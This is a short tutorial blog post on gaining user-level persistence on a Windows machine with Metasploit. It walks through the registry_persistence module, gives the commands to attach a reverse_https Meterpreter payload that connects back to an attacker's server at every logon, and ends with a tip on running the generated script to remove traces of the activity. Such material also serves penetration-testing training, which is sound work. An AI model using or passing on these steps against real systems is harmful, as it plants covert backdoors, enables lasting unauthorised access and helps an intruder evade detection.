 ```yaml
---
layout: post
title: Basic Persistence with Metasploit
published: true
---
```


This short post goes over using Metasploit to gain basic user-level persistence on a Windows machine. The Metasploit module used in this exercise installs a registry key that executes a specific payload everytime the current user logs in, so you won't completely lose access to the target machine if the user logs off or reboots. This method *will* be detected by antivirus.

---

## Gaining Persistence

You will need an active Meterpreter session.

![sessions](/img/metasploit-persistence/01-sessions.png)

Select the Metasploit module `exploit/windows/local/registry_persistence`, which will install a payload as a value in the registry key `CurrentVersion\Run`.

```
use exploit/windows/local/registry_persistence
```

Check the module's options:

![options](/img/metasploit-persistence/02-options.png)

Set the SESSION option to the active Meterpreter session.

```
set SESSION 1
```

Set and configure the payload.

```
set payload windows/meterpreter/reverse_https
set LHOST <Metasploit-server-IP>
set LPORT 443
```

Configure any other options you think are necessary, such as RUN_NAME or BLOB_REG_NAME.

Run the module on the active meterpreter session.

![persistence](/img/metasploit-persistence/03-persistence.png)

The target machine now has a persistent backdoor on it that will attempt to connect back to our Metasploit server each time the current user logs on. As long as Metasploit is listening for incoming connections with the payload specified above, we should get a session.

![jobs](/img/metasploit-persistence/04-jobs.png)

*[Optional] Make note of the resource script that Metasploit creates when you use the persistence module so that you can run it in an active session and remove traces of your activity on the machine.*

![image of cleanup](/img/metasploit-persistence/05-cleanup.png)







